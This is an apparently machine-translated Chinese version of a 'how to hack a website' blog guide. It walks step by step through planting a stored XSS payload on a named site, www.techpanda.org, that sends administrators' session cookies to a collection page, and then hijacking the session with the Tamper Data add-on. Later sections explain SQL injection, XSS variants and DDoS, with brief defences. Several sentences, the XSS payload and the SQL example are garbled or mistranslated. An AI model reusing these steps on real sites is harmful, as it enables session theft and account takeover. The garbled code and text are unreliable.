# 如何黑网站:分步网站黑客指南 2023

> 原文：<https://hackr.io/blog/how-to-hack-a-website>

当你想象一个黑客时，你会想到什么？也许是一个戴着兜帽的罪犯，用超级电脑技术窃取信息。事实是，对于那个黑客来说，学习如何黑一个网站并不困难。而且，也不是所有的网站黑客都是犯罪！

一些公司雇佣黑客来测试他们的电脑安全，比如银行、零售店和 T2 政府机构。

如果你对网页黑客感兴趣，你来对地方了。今天，我们将介绍如何入侵网站的步骤，并向您介绍不同类型的网络攻击和防范方法。

我们开始吧！

## **如何一步一步黑网站:黑网站的不同方法**

黑客有几种方法来执行网站黑客行为。他所需要的是找到网站中的脆弱点，以进入并获得关键信息。在这篇文章中，我们提到了一些可以用来入侵网站的惊人技巧。

### **1。黑客在线网站**

如何黑掉一个网站并改变它的第一种方法是黑掉一个在线网站。我们将以黑客“[www.techpanda.org](http://www.techpanda.org)”为例来演示网页黑客攻击的步骤。在这个场景中，我们将读取 cookie 会话 ID 并模拟一个用户会话来获取管理信息。

通过借助 [SQL 注入绕过认证方法](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)，我们可以获得登录凭证。然后，按照以下步骤操作:



*   选择添加新联系人。
*   在“名字”字段中输入以下信息。

[http://techpanda.org/snatch_sess_id.php?c = \ '+escape \(document . cookie \)\；\](#)>黑暗</一>

它是添加一个带有点击事件的超链接的 JavaScript 代码。单击它时，事件检索 PHP cookie 会话 id，并将其与 URL 中的会话 ID 一起发送到 snatch_sess_id.php 页面。



*   输入其他信息，然后单击保存。



*   您将获得如下所示的新条目。


*   跨站点脚本代码存储在数据库中，每次具有访问权限的用户登录时都会被加载。
*   每当管理员点击黑色条目时，他将得到一个窗口，在 URL 中显示会话 id。



### **2。会话模拟**

要进行这种攻击，您必须使用篡改数据插件。篡改数据是 Firefox 中常用的扩展。您可以篡改客户端和服务器之间发送的数据，并获取和发布元素数据。我们已经指定了如何安装一个篡改数据加载项，详细步骤如下。

*   你需要火狐和篡改数据插件。
*   打开 Firefox 安装 tamper data 插件，如下图所示。



*   查找篡改数据，并按照下图进行安装。



*   现在，点击接受并安装。



*   安装完成后，您将看到如下所示的“立即重启”按钮。



*   现在转到 Firefox 浏览器的菜单栏，如下所示。


*   转到工具并选择篡改数据



*   点击开始，你会看到下面的窗口。




*   你会看到下面的窗口。



*   现在，从攻击 URL 复制 PHPSESSID 并粘贴到 cookie 字段，然后单击 ok，如上所示。
*   你会钻到窗户下面。



*   取消选中继续选项并提交。
*   您将看到下面的仪表板。



## **不同类型的网络攻击**

不幸的是，黑客可以通过几种不同的方式进入公司的网络空间。以下是一些不同网络攻击的例子。

### **1。SQL 注入攻击**

SQL 注入攻击需要黑客向应用程序提供恶意的 SQL 查询。该查询使黑客能够从数据库中读取重要信息，甚至执行未经授权的命令，从而导致重要数据丢失和受损。

这种类型的网络攻击赋予黑客伪造身份、更改数据、导致欺诈和损害公司声誉的能力。这些攻击在 PHP 和 ASP 应用程序中很普遍，因为它们有旧的接口。注入攻击的严重程度取决于黑客的熟练程度。如果网站没有适当的安全措施保护，它很容易被利用。



#### **不同类型的 SQL 注入攻击**

根据他们访问数据和破坏数据的方式，攻击分为三类。这些是带内 SQLi(经典)、推断 SQLi(盲)和带外 SQLi。

*   **带内 SQLi:** 如果使用的 SQL 很容易被黑，是可以的。在这种类型的 SQL 注入攻击中，黑客使用网络中的相同通道来发起攻击并获取数据。它有下面提到的两种不同的变体。
*   **基于错误的 SQLi:** 由于攻击者的操作，数据库产生错误消息。根据结果，攻击者可以了解特定应用程序的数据库结构。
*   **基于联合的 SQLi:** 这种技术使用联合 SQL 操作符，合并多个 select 语句，并将它们转换成包含应用程序必要信息的单个 HTTP 响应。
*   **推理(盲)SQLi:** 在这种攻击下，黑客会向服务器发送海量数据，观察服务器的响应和行为。通过这种方式，攻击者将分析关于其结构的信息。在这里，攻击者看不到实际的数据，因为它没有从网站数据库传输回攻击者。这种攻击会降低服务器进程的速度。SQL 盲注入有如下两种变体:
*   **布尔:**一个 SQL 查询被发送到数据库，攻击者分析查询的输出，不管是真还是假。此外，HTTP 响应中的数据也会相应地改变。
*   **基于时间:**这个查询让数据库在反应之前等待几秒钟。攻击者分析响应该查询所花费的时间。它将根据花费的时间创建 HTTP 响应。攻击者可以在不进入实际数据库的情况下假设结果。
*   **带外 SQLi:** 只有在数据库服务器上启用了某些功能时，才会发生这种攻击。这取决于服务器创建向攻击者传输数据的 DNS 或 HTTP 请求的能力。如果任何方法都不能提供攻击者所期望的结果，他们就会采用这种技术。

#### **SQL 注入是如何工作的？**

攻击者可能会选择以下方式来实施 SQL 注入攻击。攻击者可以选择以下任何一种方式。

*   在用户输入字段中注入 SQL 查询:在这里，黑客将 SQL 查询输入到用户输入字段，并将它们传递给数据库进行处理。如果数据库接受输入而不进行处理，攻击者就可以为所欲为。
*   通过 cookie 注入 SQL 查询:攻击者试图从存储的 cookie 中获取数据，因此他们在设备上放置恶意软件来修改 cookie 数据，并在那里注入查询以访问数据库。
*   通过 HTTP 头注入 SQL 查询:如果应用程序从 HTTP 头获取输入并访问数据库，攻击者可以在 HTTP 头中注入查询。

#### **SQL 注入的影响**

*   绕过身份验证并冒充其他用户来访问数据库。
*   渗透/窃取数据，以使用它自己的利益。
*   修改关键数据导致欺诈。
*   删除数据会损害名誉。
*   运行任意代码取乐。
*   获得对系统本身的根访问权限并执行 SQL。

#### **例子**

首先，攻击者会找到漏洞，然后注入 SQL 查询。按照下面的例子，攻击者获取特定产品的必要信息，可以修改为 http://www.estore.com/product/product.asp?productid=999 或 1=1。这将把下面的查询发送到数据库-

```
SELECT ProductName,ProductDescription
FROM Product
WHERE ProductNumber = 999OR1=1
```

由于条件 1=1，该语句将始终为真，并返回所有产品详细信息。

#### **如何防止这种攻击？**

您可以通过净化输入来识别访问关键数据的未授权用户，从而防止这种攻击。

### **2。跨站脚本攻击**

在这种攻击中，黑客冒充受害者来获取受害者数据。这些攻击也称为 XSS，会破坏用户与应用程序的交互。在这种攻击下，攻击者会创建相同的环境来区分不同的网站。如果攻击者获得了对特定应用程序的特权访问，他们就可以损害应用程序中存储的重要数据。

攻击从受害者访问应用程序或网页开始。攻击者在受害者的 web 浏览器中执行恶意 JavaScript 代码。一旦用户访问网页，网页就充当传递注入代码的工具。攻击者可以在网页中注入代码的一些例子有论坛、评论等。

#### **跨站点脚本攻击的影响**

以下是对用户的一些影响:

*   渗透/窃取数据，以使用它自己的利益。
*   修改关键数据导致欺诈。
*   删除数据会损害名誉。
*   运行任意代码取乐。

#### **如何防范跨站脚本攻击**

确保实施以下策略来防止这种攻击的发生。

*   确保应用程序的表单过滤掉了用户提供的输入。
*   始终对输出数据进行编码，以确保安全性。
*   确保使用适当的响应头。
*   此外，实施与内容相关的安全策略。

#### **不同类型的 XSS**

有三种不同类型的攻击可用。

*   **反映跨站脚本攻击**

这种类型的攻击很容易创建。攻击者在应用程序的 HTTP 请求中提供代码，并通过即时响应获取数据。

例如:

https://xyz-website.com/status?message=

状态: 

每当用户单击应用程序 HTTP 请求并访问上述 URL 时，注入的脚本将在 web 浏览器中执行。该脚本可以获取必要的信息，删除数据等。

*   **存储的跨站点脚本**

在这种攻击中，应用程序可能会从不受信任的来源接收数据，并将该数据包含在 HTTP 响应中供服务器处理。

数据可以通过 HTTP 请求注入到应用程序中。例如，客户订单上的备注、联系方式等。

例如:

应用程序的评论部分允许用户提交消息，如下所示。

```
<p>Hello, data</p>
```

攻击者可以很容易地发送消息，甚至可以伤害可以从评论部分访问该消息的其他用户。

```
<p><script>/* malicious code... */</script></p>
```

*   **基于 DOM 的跨站点脚本**

当应用程序让客户端 [JavaScript](https://hackr.io/blog/how-to-learn-javascript) 处理来自不可信来源的数据并将数据写回 DOM 时，就会发生这种攻击。

在下面提到的例子中，JavaScript 代码从输入字段读取值，并将提供的值提供给 HTML 元素，如下所示。

```
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search; 
```

如果攻击者控制了输入字段的值，他们可以插入恶意值来执行:

您搜索了:

```

```

### 3.拒绝服务攻击

分布式拒绝服务(DDoS)攻击通过向目标服务器发送大量请求来影响目标服务器的正常流量。它们通常在受恶意软件感染的互联设备网络中进行，并由攻击者远程控制。这些单独的设备被称为机器人，攻击者将向其发送远程指令来执行。当一个 bot 以服务器为目标时，它会向目标的 IP 地址发送一个请求，使服务器崩溃，从而导致严重的破坏。



#### **不同类型的 DDoS 攻击**

以下是攻击者通常实施的不同类型的 DDoS 攻击。

*   **TCP 连接攻击:**这种攻击会占用你所有的连接，比如负载平衡器、防火墙、应用服务器，导致处理实际请求的延迟。
*   **容量攻击:**针对目标网络内或目标网络与互联网之间的应用带宽造成拥塞。
